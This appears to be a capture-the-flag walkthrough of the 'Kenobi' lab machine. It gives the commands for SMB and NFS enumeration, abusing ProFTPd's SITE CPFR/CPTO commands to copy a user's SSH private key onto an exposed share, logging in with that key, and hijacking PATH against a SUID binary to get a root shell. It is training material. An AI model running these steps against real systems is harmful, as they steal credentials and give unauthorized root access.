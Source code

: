 # Kenobi

### **Tasks**:

1. **Deploy the vulnerable machine**:
   1. Do usual nmap scan with `nmap -sV ip` and complete the task.
2. **Enumerating samba for shares**:
   1. Do scan with `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip`
   2. Connect to anonymous smb share with no password `smbclient //ip/anonymous`
   3. Get all files from share recursively using `smbget -R smb:///anonymous` .You can see there's log.txt which gives information about ftp port number and also kenobi's ssh private key location.
   4. From nmap output port 111 is open and rpcbind running behind it. Use `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount ip` to enumerate mount - /var is available as mount through network file system.
3. **Gain initial access with ProFTPd**:
   1. Use `nc ip 21` to connect to ftp. ProFTPd version used is 1.3.5. Use searchsploit find exploits for the ProFTPd server used.
   2. connect to ftp server and type `SITE CPFR /home/kenobi/.ssh/id_rsa` and `SITE CPTO /var/tmp/id_rsa` to copy ssh private key to nfs share.
   3. Mount NFS share to your machine , copy ssh private key from /var/tmp to current working directory and ssh into kenobi using
      1. `mkdir /mnt/kenobiNFS` `mount machine_ip:/var /mnt/kenobiNFS` `ls -la /mnt/kenobiNFS`
      2. `cp /mnt/kenobiNFS/tmp/id_rsa .`
      3. `ssh -i id_rsa kenobi@ip`
   4. `cat /home/kenobi/user.txt` and submit user flag
4. **Privilege Escalation with Path Variable Manipulation**:
   1. Find binaries with suid bit set using `find / -perm -u=s -type f 2>/dev/null`
   2. /usr/bin/menu seems looks out of ordinary
   3. Using strings on menu , we find that curl is called without full path ,So we can copy /bin/sh as curl to tmp path and export tmp path using `echo /bin/sh > /tmp/curl` , `chmod 777 /tmp/curl` , `export PATH=/tmp:$PATH`
   4. Now run /usr/bin/menu and select option 1 , you will get root shell.
   5. `cat /root/root.txt` and submit root flag.

**References**:

1. [https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
